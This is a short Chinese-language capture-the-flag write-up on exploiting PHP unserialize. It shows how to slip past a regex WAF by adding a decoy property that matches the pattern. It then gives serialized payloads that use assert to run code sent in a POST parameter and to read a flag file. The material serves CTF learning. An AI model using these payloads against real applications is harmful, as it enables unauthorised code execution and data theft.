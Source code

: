 ```php
<?php
class Hacker{
    public $name="assert";
    public $msg="phpinfo();";
}
echo serialize(new Hacker());
```

会发现过不了第二个waf。构造出来的是这样

```php
O:6:"Hacker":2:{s:4:"name";s:6:"assert";s:3:"msg";s:10:"phpinfo();";}
```

观察waf：

```
/s:4:"name";s:\d:"v\w*"/
```

可以发现它要求name的值以v开头。也就是说调用的函数是一个以v开头的函数。想不到可以利用的函数，但是可以想办法给它绕过。考虑到用的是`preg_match`，只要匹配到即可。因此想办法给个属性，它的值符合这个正则即可。

```php
<?php
class Hacker{
    public $feng = 's:4:"name";s:1:"v"';
    public $name="assert";
    public $msg="phpinfo();";
}
echo serialize(new Hacker());
```

然后想办法拿shell就行了，第一个正则我没怎么管，直接想办法assert：

```php
<?php
class Hacker{
    public $feng = 's:4:"name";s:1:"v"';
    public $name="assert";
    public $msg='assert($_POST[\'a\']);';
}
echo serialize(new Hacker());
```

```
info=O:6:"Hacker":3:{s:4:"feng";s:18:"s:4:"name";s:1:"v"";s:4:"name";s:6:"assert";s:3:"msg";s:20:"assert($_POST['a']);";}&a=phpinfo();
```

然后像第一题一样拿`$_POST['a']`rce即可。

```php
info=O:6:"Hacker":3:{s:4:"feng";s:18:"s:4:"name";s:1:"v"";s:4:"name";s:6:"assert";s:3:"msg";s:20:"assert($_POST['a']);";}&a=var_dump(file_get_contents('/you_never_know_my_name'));
```


